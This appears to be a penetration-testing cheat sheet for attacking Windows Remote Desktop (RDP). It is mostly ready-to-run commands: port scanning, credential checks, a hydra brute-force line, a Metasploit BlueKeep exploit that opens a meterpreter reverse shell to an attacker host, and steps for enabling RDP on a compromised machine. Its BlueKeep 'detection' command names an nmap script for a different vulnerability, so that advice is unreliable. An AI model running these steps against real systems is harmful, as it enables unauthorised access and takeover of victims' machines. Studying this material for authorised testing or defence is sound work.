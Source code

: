 **RDP** (Remote Desktop Protocol) is a proprietary protocol developed by Microsoft to allow users to remotely connect to and interact with a Windows-based machine using a graphical interface. It operates on port **3389** by default and supports remote desktop, file transfer, and application sharing.


## Check if RDP is Enabled  
Use tools like `nmap` to scan for open RDP ports and confirm the service.  

```bash
nmap -p 3389 --script=rdp-enum-encryption <target>
```

## Testing RDP with Credentials  
`rdesktop`, `xfreerdp`, or `crackmapexec` can be used to validate login credentials for RDP.

**rdesktop**
```bash
rdesktop -u <username> -p <password> <target_ip>
```

**xfreerdp**
```bash
xfreerdp /u:<username> /p:<password> /v:<target_ip> /dynamic-resolution
```

**netexec**
```bash
netexec rdp <target_ip> -u <username> -p <password>
```

## Brute Force Attack on RDP  
`hydra` can be used to brute force RDP credentials.

```bash
hydra -l <username> -P <password_list> rdp://<target_ip>
```

## BlueKeep
**BlueKeep** is a critical vulnerability in the Remote Desktop Protocol (RDP) service of older Windows systems, identified as CVE-2019-0708. This exploit enables unauthenticated attackers to execute remote code on unpatched systems, potentially allowing full control over the affected machine.

#### Affected Systems
- Windows Server Versions:
	- Windows Server 2003 (if RDP is manually enabled)
	- Windows Server 2008 / 2008 R2
- Windows OS Versions:
	- Windows XP (if RDP is enabled)
    - Windows Vista
    - Windows 7

*Note: Systems updated with the May 2019 security patch or later are protected from BlueKeep. Additionally, systems with Network Level Authentication (NLA) enabled are more secure.*

#### Detection

Use Nmap to check for BlueKeep vulnerability:

```bash
nmap -p 3389 --script rdp-vuln-ms12-020 <target_ip>
```

#### **Exploitation**

Once the target is confirmed vulnerable, you can exploit BlueKeep using **Metasploit**:

```bash
msfconsole
search bluekeep
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
# Configure the exploit
set RHOST <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <port>
exploit
```


## Enabling RDP

The following commands enable RDP and allows traffic through the firewall.

```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

#### Metasploit
To enable RDP on a Windows target, you can use the **Metasploit module** `windows/manage/enable_rdp`.
 1. Gain access to the target machine using a Meterpreter session.
 2. Use the `windows/manage/enable_rdp` module.
```bash
use windows/manage/enable_rdp
set RHOST <target_ip>
set SESSION <seesion_id>
set RPORT 3389
run
```